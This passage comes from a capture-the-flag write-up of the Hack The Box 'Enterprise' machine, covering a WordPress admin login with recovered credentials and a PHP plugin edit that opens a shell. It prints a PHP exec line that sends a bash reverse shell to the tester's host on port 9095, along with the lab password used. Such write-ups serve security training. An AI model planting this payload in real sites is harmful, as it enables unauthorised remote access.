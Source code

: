 > Note: Add 'enterprise.htb    10.10.10.61' to /etc/hosts. Identified through lcars.php and nikto scans

### WordPress
On the Wordpress admin panel, [http://enterprise.htb/wp-login.php](http://enterprise.htb/wp-login.php), with the user
as *william.riker*, login attempts were carried with the identified passwords. The credentials that worked was 
***william.riker:u\*Z14ru0p#ttj83zS6***. Upon login, the *lcars.php* file, found on *Plugins* section was edited to 
add the following line. 
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9095 0>&1'");
```
Browsing to [http://10.10.10.61/wp-content/plugins/lcars/lcars.php ](http://10.10.10.61/wp-content/plugins/lcars/lcars.php )
resulted in a reverse shell being caught on the attacking host on port 9095. However, the *user.txt* informed that this
is not the *Enterprise* and enumerating further showed that the shell was from a *Docker Container*.
<br> **user.txt**
```text
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```
![WordPress Shell](/assets/img/posts/enterprise/wordpressShell.png)
